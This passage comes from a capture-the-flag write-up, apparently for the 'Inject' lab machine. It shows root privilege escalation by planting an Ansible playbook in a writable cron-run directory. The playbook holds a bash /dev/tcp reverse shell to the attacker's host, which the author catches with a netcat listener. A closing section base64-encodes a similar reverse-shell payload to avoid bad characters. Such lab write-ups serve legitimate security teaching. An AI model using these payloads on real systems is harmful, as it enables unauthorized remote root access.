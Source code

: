 This job is executing every `.yml` file (`*.yml`) within `/opt/automation/tasks/`, so we can create our `.yml` payload since we have write access to the directory (`w`):

```bash
phil@inject:/opt/automation$ cd /opt/automation/tasks
phil@inject:/opt/automation/tasks$ ls -ld
drwxrwxr-x 2 root staff 4096 Feb  8 18:56 .
phil@inject:/opt/automation/tasks$ cp playbook_1.yml shell.yml
phil@inject:/opt/automation/tasks$ nano shell.yml
phil@inject:/opt/automation/tasks$ cat shell.yml
- hosts: localhost
  tasks:
  - name: Checking webapp service
    shell:
      cmd: bash -c 'bash -i >& /dev/tcp/10.10.14.4/9000 0>&1'
```

Open a listener and wait (the job runs every 2 minutes):

```bash
$ nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.204] 59482
bash: cannot set terminal process group (9063): Inappropriate ioctl for device
bash: no job control in this shell
root@inject:/opt/automation/tasks# cat /root/root.txt
cat /root/root.txt
...snip...
```

The cronjob we exploited:

```bash
root@inject:/opt/automation/tasks# crontab -l
crontab -l

...snip...
# m h  dom mon dow   comma
*/2 * * * * /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
...snip...
```

![](machine_pwned.png){: width="75%" .normal}

## Extra - Removing Bad Characters

>_Based on IppSec's [video walkthrough](https://youtu.be/3VuIaUvHsTI?t=868)._

Getting initial foothold without dropping a file on the target:

```bash
$ cat index.html
/bin/bash -i >& /dev/tcp/10.10.14.4/1337 0>&1

# encoding payload
$ echo "/bin/bash -i >& /dev/tcp/10.10.14.4/1337 0>&1" | base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYxCg==

# removing bad characters, i.e., '=='
$ echo "/bin/bash -i >& /dev/tcp/10.10.14.4/1337 0>&1  " | base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYxICAK
```
